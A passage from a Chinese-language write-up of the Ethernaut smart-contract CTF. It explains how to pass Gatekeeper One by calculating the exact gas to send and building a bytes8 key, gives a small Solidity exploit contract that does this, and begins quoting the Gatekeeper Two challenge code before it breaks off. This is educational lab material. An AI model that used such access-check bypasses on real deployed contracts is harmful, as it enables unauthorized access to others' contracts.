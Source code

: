 单步运行，直到流程进入到 gateTwo 函数中的 GAS 指令（将剩余的 gas 压入栈中），此时显示当前步 gas 为 2，剩余 gas 为 81658

所以输入的 gas 为 81910 + (81910 - 81658) + 2 = 82164 时，压入栈中的 gas 刚好是 81910

对于第三个，bytes8 相当于 uint64，而且使用 uintx 来强制转换时从后往前取，所以需要满足：

- 16~31 位（后 3、4 字节）为 0
- 32 位及以上不全为 0
- 0~15 位（后两个字节）和自己地址的后两个字节相同

所以可以构造出需要的 bytes8 为 `#!js bytes8(0x0000000100000E28)`，把这个输入就可以通过三个 gate 了

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Exploit {
        GatekeeperOne challenge;
        constructor(address addr) public {
            challenge = GatekeeperOne(addr);
        }
        function exp() public {
            challenge.enter.gas(82164)(bytes8(0x0000000100000E28));
        }
    }
    ```

---

## Gatekeeper Two

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract GatekeeperTwo {

        address public entrant;

        modifier gateOne() {
            require(msg.sender != tx.origin);
            _;
        }

        modifier gateTwo() {
            uint x;
            assembly { x := extcodesize(caller()) }
            require(x == 0);
            _;
        }

        modifier gateThree(bytes8 _gateKey) {
            require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
            _;
        }
